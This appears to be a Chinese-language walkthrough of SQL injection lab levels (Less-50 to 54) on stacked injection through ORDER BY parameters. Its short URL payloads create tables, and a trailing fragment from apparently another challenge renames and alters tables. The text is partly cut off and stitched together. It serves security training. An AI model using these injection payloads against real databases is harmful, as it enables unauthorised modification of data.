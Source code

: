 >   从本关开始我们开始进行 order by stacked injection！
>
>   执行 sql 语句我们这里使用的是 mysqli_multi_query()函数，而之前我们使用的是 mysql_query()，
>
>   区别在于 mysqli_multi_query()可以执行多个 sql 语句，而 mysqli_query()只能执一个 sql 语句，
>
>   那么我们此处就可以执行多个 sql 语句进行注入，也就是我们之前提到的 statcked injection。
>
>   这里我们上述用到的方法依旧是可行的，我们这里就不重复了，这里就看下 stacked injectio

```sql
?sort=1;create table less50 like users
```

#### 【51】

>   本关的 sql 语句为 $sql="SELECT * FROM users ORDER BY '$id'

```sql
?sort=1';create table less50 like users --+
```

#### 【52】

>   和 less50 是一样的，只是这里的 mysql 错误不会在前台显示，但是对于 stacked injection 一样的利用

```sql
?sort=1;create table less56 like users
```

#### 【53】

>   和 less51 是一样的，只是这里的 mysql 错误不会在前台显示，但是对于 stacked injection 是一样的利用

```sql
?sort=1';create table less57 like users --+
```



#### 【54】

>   此系列主要是一个进阶的学习，将前面学到的知识进行更深次的运用。
>
>   这一关我们主要考察的依旧是字符型注入，但是只能尝试十次。
>
>   所以需要在尝试的时候进行思考。如何能更少的减少次数。
>
>   这里的表名和密码等是每十次尝试后就强制进行





1'; 

rename table words to word1;

rename table `1919810931114514` to words;

alter table words add id int unsigned not Null auto_increment primary key; 
